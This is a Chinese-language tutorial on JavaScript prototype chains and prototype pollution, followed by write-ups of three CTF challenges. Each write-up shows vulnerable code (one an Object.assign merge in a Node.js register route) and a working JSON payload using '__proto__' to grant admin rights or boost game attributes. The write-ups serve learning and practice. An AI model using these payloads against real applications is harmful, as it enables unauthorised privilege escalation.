# 原型链

JavaScript 原型链是实现继承的一种方式，每个对象都有一个内部属性 `[[Prototype]]`（在代码中可通过 `__proto__` 访问），它指向该对象的原型对象。当访问一个对象的属性或方法时，JavaScript 首先会在该对象本身查找，如果找不到，就会沿着原型链向上查找，直到找到该属性或方法，或者到达原型链的末尾（`Object.prototype`）。

传统的面向对象（例如java），采用类的形式，以类为模版创建对象


```java
// 定义 Person 类
class Person {
    
}

// 创建 Person 对象
Person person = new Person();
```

JavaScript 是基于原型链实现继承和封装

```js
function Person(){};
let p=new Person();

```

## 创建对象的方法

```js
// 第一种方式：字面量
var o1 = {name: 'o1'}
var o2 = new Object({name: 'o2'})
// 第二种方式：构造函数
var M = function (name) { this.name = name; }
var o3 = new M('o3')
// 第三种方式：Object.create
var p = {name: 'p'}
var o4 = Object.create(p)

console.log(o1)　　　　
console.log(o2)
console.log(o3)
console.log(o4)
```




来张图




有点晕_(¦3」∠)_，举个例子

```js
var M = function (name) { this.name = name; }
var o3 = new M('o3')
```

-  实例就是对象，在本例中o3就是实例，M就是构造函数。
- 实例通过new一个构造函数生成的。
- 从上图中可以知道，实例的`__protpo__`指向的是原型对象。
- 实例的构造函数的prototype也是指向的原型对象。 
- 原型对象的construor指向的是构造函数。



## 原型链的应用

通过一个构造函数创建出来的多个实例，如果都要添加一个方法，给每个实例去添加并不是一个明智的选择。这时就该用上原型了。

在实例的原型上添加一个方法，这个原型的所有实例便都有了这个方法。

```js
var M = function (name) { this.name = name; }
var o3 = new M('o3')
var o5 = new M('o5')

o3.__proto__.say = function() {
  console.log('hello ' + this.name);
};

o3.say() 
o5.say() 
```



## 原型链污染

举个简单的污染的例子

```js
var a = {number : 1}
var b = {number : 2}
a
b
b.__proto__.number=3 
b
var c= {}
c.number
```



>当访问一个对象的属性或方法时，JavaScript 首先会在该对象本身查找，如果找不到，就会沿着原型链向上查找，直到找到该属性或方法，或者到达原型链的末尾

调用`b.number`时，它的具体调用过程是如下所示的

1、在b对象中寻找number属性

2、当在b对象中没有找到时，它会在b.`__proto__`中寻找number属性 

3、如果仍未找到，此时会去`b.__proto__.__proto__`中寻找number属性


一层一层向上递归寻找，直到找到或是递归到`null`为止，因为b本身就有number属性，直接就是2

`c.number`也就来到了 `c.__proto__`中寻找`number`属性，我们刚刚进行了原型链污染，它的`c.__proto__`其实就是`Object.protoype`，而我们进行污染的`b.__proto__`也是`Object.prototype`，所以此时它调用的`number`就是我们刚刚污染的属性，所以这也就是为什么`c .number=3`

# 实战

## cat-wife

题目环境：[攻防世界](https://adworld.xctf.org.cn/challenges/list)

打开题目，是一个登录页面，后端采用的是**Node.js**



点击注册，勾上**is admin**，需要邀请码。（想要拿到flag，必须为admin）



注册界面的源码如下

```js
app.post('/register', (req, res) => {
    let user = JSON.parse(req.body)
    if (!user.username || !user.password) {
        return res.json({ msg: 'empty username or password', err: true })
    }
    if (users.filter(u => u.username == user.username).length) {
        return res.json({ msg: 'username already exists', err: true })
    }
    if (user.isAdmin && user.inviteCode != INVITE_CODE) {
        user.isAdmin = false
        return res.json({ msg: 'invalid invite code', err: true })
    }
    let newUser = Object.assign({}, baseUser, user)   //这里
    users.push(newUser)
    res.json({ msg: 'user created successfully', err: false })
})
```

注意这部分

```js
let user = JSON.parse(req.body)  
// ...
let newUser = Object.assign({}, baseUser, user)  // 将用户输入合并到新对象
```

```Object.assign```能触发原型链污染，```let newUser = Object.assign({}, baseUser, user)```的作用是把baseUser和user的属性合并后拷贝到{}中，即newUser是baseUser和user的集合体。baseUser猜测是user类似父类的东西，user是上面```{"username":"a","password":"b","isAdmin":false}```部分了

随便输个邀请码提交，抓包



```js
payload：
{"username":"e","password":"e","__proto__":{"isAdmin":true}}
```

改一下包



然后登陆就拿到了flag




## [LitCTF 2025]多重宇宙日记

环境：[[LitCTF 2025\]多重宇宙日记 | NSSCTF](https://www.nssctf.cn/problem/6801)




首先注册然后登陆



查看源码

```html
<script>
    // 更新表单的JS提交
    document.getElementById('profileUpdateForm').addEventListener('submit', async function(event) {
        event.preventDefault();
        const statusEl = document.getElementById('updateStatus');
        const currentSettingsEl = document.getElementById('currentSettings');
        statusEl.textContent = '正在更新...';

        const formData = new FormData(event.target);
        const settingsPayload = {};
        // 构建 settings 对象，只包含有值的字段
        if (formData.get('theme')) settingsPayload.theme = formData.get('theme');
        if (formData.get('language')) settingsPayload.language = formData.get('language');
        // ...可以添加其他字段

        try {
            const response = await fetch('/api/profile/update', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify({ settings: settingsPayload }) // 包装在 "settings"键下
            });
            const result = await response.json();
            if (response.ok) {
                statusEl.textContent = '成功: ' + result.message;
                currentSettingsEl.textContent = JSON.stringify(result.settings, null, 2);
                // 刷新页面以更新导航栏（如果isAdmin状态改变）
                setTimeout(() => window.location.reload(), 1000);
            } else {
                statusEl.textContent = '错误: ' + result.message;
            }
        } catch (error) {
            statusEl.textContent = '请求失败: ' + error.toString();
        }
    });

    // 发送原始JSON的函数
    async function sendRawJson() {
        const rawJson = document.getElementById('rawJsonSettings').value;
        const statusEl = document.getElementById('rawJsonStatus');
        const currentSettingsEl = document.getElementById('currentSettings');
        statusEl.textContent = '正在发送...';
        try {
            const parsedJson = JSON.parse(rawJson); // 确保是合法的JSON
            const response = await fetch('/api/profile/update', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify(parsedJson) // 直接发送用户输入的JSON
            });
            const result = await response.json();
            if (response.ok) {
                statusEl.textContent = '成功: ' + result.message;
                currentSettingsEl.textContent = JSON.stringify(result.settings, null, 2);
                 // 刷新页面以更新导航栏（如果isAdmin状态改变）
                setTimeout(() => window.location.reload(), 1000);
            } else {
                statusEl.textContent = '错误: ' + result.message;
            }
        } catch (error) {
             statusEl.textContent = '请求失败或JSON无效: ' + error.toString();
        }
    }
</script>
```

可以发现参数`isAdmin`，应用会根据这个参数判断用户是否为admin

更新设置



> **可以通过 `__proto__` 属性访问其原型（`prototype`），如果向对象中添加 `__proto__` 字段，会修改该对象的原型链，影响所有继承自该原型的对象**

```js
{"settings":{"theme":"1","language":"1"}}
```

污染 `settings` 对象的原型

```js
{"settings":{"theme":"a","language":"a","__proto__":{"isAdmin":true}}}
```



刷新下界面，加载出了管理面板，拿到flag



## [MoeCTF 2021]fake game

环境：[[MoeCTF 2021\]fake game | NSSCTF](https://www.nssctf.cn/problem/3414)

题目描述[XDSEC/moeCTF_2021: moeCTF 2021 Challenges and writeup](https://github.com/XDSEC/moeCTF_2021)

题目如下




创建角色






看一下源码

```js

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>index</title>
    <style>
        .myForm {

        }
    </style>
    <script src="/static/jquery.min.js"></script>
</head>
<body>
<div>你有十点属性值可以用来分配，合理分配属性去挑战魔王吧！！！</div>
<!--如果你将某一项属性值设为0，你将没有这项属性-->
<form class="myForm">
    <div>
        <label for="health">生命值：</label>
        <input id="health" type="text">
    </div>
    <div>
        <label for="attack">攻击力：</label>
        <input id="attack" type="text">
    </div>
    <div>
        <label for="armor">护甲：</label>
        <input id="armor" type="text">
    </div>
    <button type="button" id="submit">创建角色</button>
</form>
<script type="text/javascript">
    $(function () {
        $("#submit").on('click', function () {
            $.ajax({
                type: "POST",
                url: "/api/fight",
                contentType: "application/json; charset=utf-8",
                dataType: 'json',
                data: JSON.stringify({
                    attributes: {
                        health: parseInt($("#health").val()),
                        attack: parseInt($("#attack").val()),
                        armor: parseInt($("#armor").val()),
                    }
                }),
                success: function (res) {
                    if (res.status === 200) {
                        alert(res.result);
                    } else if(res.status === 403){
                        alert("Invalid input, please try again");
                    } else if(res.status === 500){
                        alert("Json data only!");
                    }
                },
            })
        })
    });
</script>
</body>
</html>
```

注意看注释：**如果你将某一项属性值设为0，你将没有这项属性**

猜测是原型链污染，构造payload：

```js
{"attributes":{"health":0,"attack":0,"armor":0,"__proto__":{"health":999,"attack":999,"armor":999}}}
```

成功拿到flag




